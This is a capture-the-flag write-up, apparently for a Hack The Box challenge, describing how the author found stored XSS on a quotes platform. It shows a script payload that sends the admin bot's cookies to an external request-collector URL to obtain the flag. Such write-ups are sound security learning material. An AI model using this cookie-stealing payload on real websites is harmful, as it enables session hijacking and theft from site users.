 # Description

We've been working hard on our new startup "Quotes Blog", a crowdsourced quotes submission platform. Can you review this application for any vulnerabilities before we launch this platform?

# Recon

Checking the website

![](Pasted%20image%2020241202183500.png)
![](Pasted%20image%2020241202183512.png)

Trying below code to test if it is vulnerable to XSS; and it is.

![](Pasted%20image%2020241203005951.png)![](Pasted%20image%2020241203010013.png)

# Exploitation

As the code suggest that admin checks the quote (i.e. visit the page.). This will be helpfull to leverage xss to get admin cookies.

![](Pasted%20image%2020241203010301.png)![](Pasted%20image%2020241203010343.png)

My first thought was to use ngrok's http for public domain but its default page shows warning first and requires paid version to view without warning hence using `requestbin`.

![](Pasted%20image%2020241203010608.png)
![](Pasted%20image%2020241203010619.png)

**Due to this restriction I am using <https://beeceptor.com/> for more alternative search requestbin (<https://pipedream.com/requestbin>)**

![](Pasted%20image%2020241203012107.png)
![](Pasted%20image%2020241203012121.png)

Creating payload for the XSS.

```
<script>document.location='https://hackthebox.free.beeceptor.com/'+document.cookie;</script>
```

![](Pasted%20image%2020241203012520.png)

When admin bot visited the site our payload redirected the cookies to public http server.

![](Pasted%20image%2020241203012535.png)

The flag is - `HTB{m0r3_th4n_ju5t_al3rts}